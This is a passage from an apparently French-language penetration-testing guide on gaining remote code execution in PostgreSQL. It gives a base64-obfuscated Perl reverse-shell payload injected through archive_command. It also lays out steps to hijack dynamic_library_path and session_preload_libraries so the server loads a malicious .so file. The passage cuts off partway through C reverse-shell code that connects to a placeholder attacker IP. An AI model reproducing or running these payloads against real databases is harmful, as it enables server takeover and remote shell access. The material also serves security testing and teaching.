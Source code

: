 Les étapes générales sont :

1. Vérifiez si le mode d'archive est activé : `SELECT current_setting('archive_mode')`
2. Écrasez `archive_command` avec le payload. Par exemple, un shell inversé : `archive_command = 'echo "dXNlIFNvY2tldDskaT0iMTAuMC4wLjEiOyRwPTQyNDI7c29ja2V0KFMsUEZfSU5FVCxTT0NLX1NUUkVBTSxnZXRwcm90b2J5bmFtZSgidGNwIikpO2lmKGNvbm5lY3QoUyxzb2NrYWRkcl9pbigkcCxpbmV0X2F0b24oJGkpKSkpe29wZW4oU1RESU4sIj4mUyIpO29wZW4oU1RET1VULCI+JlMiKTtvcGVuKFNUREVSUiwiPiZTIik7ZXhlYygiL2Jpbi9zaCAtaSIpO307" | base64 --decode | perl'`
3. Rechargez la config : `SELECT pg_reload_conf()`
4. Forcez l'opération WAL à s'exécuter, ce qui appellera la commande d'archive : `SELECT pg_switch_wal()` ou `SELECT pg_switch_xlog()` pour certaines versions de Postgres

#### **RCE avec des bibliothèques préchargées**

Plus d'informations [sur cette technique ici](https://adeadfed.com/posts/postgresql-select-only-rce/).

Ce vecteur d'attaque tire parti des variables de configuration suivantes :

- `session_preload_libraries` -- bibliothèques qui seront chargées par le serveur PostgreSQL lors de la connexion du client.
- `dynamic_library_path` -- liste des répertoires où le serveur PostgreSQL recherchera les bibliothèques.

Nous pouvons définir la valeur de `dynamic_library_path` sur un répertoire, écrivable par l'utilisateur `postgres` exécutant la base de données, par exemple, le répertoire `/tmp/`, et y télécharger un objet `.so` malveillant. Ensuite, nous forcerons le serveur PostgreSQL à charger notre bibliothèque nouvellement téléchargée en l'incluant dans la variable `session_preload_libraries`.

Les étapes de l'attaque sont :

1. Télécharger le `postgresql.conf` original
2. Inclure le répertoire `/tmp/` dans la valeur de `dynamic_library_path`, par exemple `dynamic_library_path = '/tmp:$libdir'`
3. Inclure le nom de la bibliothèque malveillante dans la valeur de `session_preload_libraries`, par exemple `session_preload_libraries = 'payload.so'`
4. Vérifiez la version majeure de PostgreSQL via la requête `SELECT version()`
5. Compiler le code de la bibliothèque malveillante avec le bon package de développement PostgreSQL Exemple de code :

```c
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include "postgres.h"
#include "fmgr.h"

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

void _init() {
/*
code pris de https://www.revshells.com/
*/

int port = REVSHELL_PORT;
struct sockaddr_in revsockaddr;

int sockt = socket(AF_INET, SOCK_STREAM, 0);
revsockaddr.sin_family = AF_INET;
revsockaddr.sin_port = htons(port);
revsockaddr.sin_addr.s_addr = inet_addr("REVSHELL_IP");
```